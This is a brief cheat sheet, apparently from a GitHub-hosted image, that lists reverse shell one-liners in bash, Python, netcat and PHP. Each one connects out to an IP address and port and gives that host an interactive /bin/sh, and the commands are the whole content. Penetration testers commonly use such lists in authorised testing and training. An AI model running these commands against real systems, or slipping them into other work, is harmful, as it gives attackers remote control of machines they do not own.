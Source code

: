 #### Reverse Shell Cheatsheet

* BASH
```
bash -i >& /dev/tcp/192.168.1.1/4444 0>&1
```
* PYTHON
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
* NETCAT
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 4444 >/tmp/f
```
* PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

